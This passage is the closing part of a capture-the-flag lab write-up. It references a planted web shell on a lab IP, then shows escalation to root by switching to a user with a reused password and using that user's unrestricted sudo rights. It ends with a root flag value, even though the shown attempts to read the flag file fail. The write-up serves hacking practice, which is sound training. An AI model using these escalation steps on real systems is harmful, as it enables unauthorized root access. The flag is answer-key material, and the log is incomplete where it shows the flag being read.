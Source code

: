 - This is the directory you need to visit `http://10.10.73.168/shell.php`. Now let's get that root flag.

---

## 👑 Root Privilege Escalation

- This one is pretty straightforward, I literally wasted time enumerating the machine before realising I can just switch to `jenny` since password is the same, right?

  ```
  www-data@wir3:/$ su jenny
  Password: 
  jenny@wir3:/$ whoami
  jenny
  jenny@wir3:/$ id
  uid=1000(jenny) gid=1000(jenny) groups=1000(jenny),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
  ```
  
- Getting root is even easier, run `sudo -l` and you'll see.

  ```
  jenny@wir3:/$ sudo -l
  [sudo] password for jenny: 
  Matching Defaults entries for jenny on wir3:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User jenny may run the following commands on wir3:
      (ALL : ALL) ALL
  jenny@wir3:/$ sudo su
  root@wir3:/# cat root/root.txt
  cat: root/root.txt: No such file or directory
  root@wir3:/# cat /root/root.txt
  cat: /root/root.txt: No such file or directory
  root@wir3:/# pwd
  /
  ```
  
- Now go get that flag!

---

## 🏁 Flags

- **Root Flag**: `ebcefd66ca4b559d17b440b6e67fd0fd`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing much, pretty basic room.`

